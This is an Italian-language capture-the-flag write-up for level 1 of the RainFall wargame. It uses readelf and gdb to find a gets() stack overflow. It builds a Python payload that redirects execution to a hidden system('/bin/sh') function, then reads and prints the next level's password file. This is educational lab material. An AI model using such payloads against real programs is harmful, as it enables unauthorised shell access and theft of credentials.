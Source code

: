 #Level 1

L'eseguibile presente nella home richiede un input e termina la sua
esecuzione. Per scoprire qualcosa in più esegui il comando: 
`readelf -p '.rodata' level1` ed ottengo il seguente output:
```
String dump of section '.rodata':
  [     8]  Good... Wait what?^J
  [    1c]  /bin/sh
```
Queste stringhe sono presenti nel binario ma nell'esecuzione non
appaiono, dunque non resta che aprire `gdb`:
```
level1@RainFall:~$ gdb -q level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```
Con il comando `info functions` abbiamo l'elenco delle funzioni
presenti e scopriamo che ci sono due funzioni scritte dall'utente 
`main` e `run`.
Con `disass main` vediamo che viene dichiarato 
probabilmente un array da 64 byte per poi esser passato alla funzione
`gets` che caricherà l'input dell'utente nel buffer da 64 byte.
Con `disass run` possiamo leggere una funzione che stampa il testo `Good... Wait what?\n`
tramite `fwrite` e successivamente chiama la funzione `system` passando come argomento
`/bin/sh`.

Sull'input inserito dall'utente non abbiamo alcun controllo dunque basterà
inserire una quantità tale di caratteri da sovrascrivere l'indirizzo in `eip`
sostituendolo con l'indirizzo della funzione `run` ovvero `0x08048444` così
portiamo l'esecuzione del programma sulla funzione `run` e avremo una shell
con i giusti permessi.

Sfruttando il sito [Buffer Overflow EIP Offset String Generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)
generiamo una stringa lunga 80 caratteri così da individuare l'offset dell'indirizzo
del registro contenuto in `eip`:
```
level1@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac" > /tmp/exploit
level1@RainFall:~$ gdb -q level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) r < /tmp/exploit
Starting program: /home/user/level1/level1 < /tmp/exploit

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```
Dal messaggio di errore possiamo effettivamente capire che l'offset si trova
al carattere 76. Quindi basta scrivere in input 76 caratteri più l'indirizzo della
funzione `run`:
```
level1@RainFall:~$ python -c 'print("a"*76+"\x44\x84\x04\x08")' > /tmp/exploit
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
Utilizziamo il carattere `-` per far si che cat non invii il segnale di `EOF`
e la shell rimanga aperta.
Adesso non resta che:
```
level1@RainFall:~$ su level2
Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
level2@RainFall:~$
```
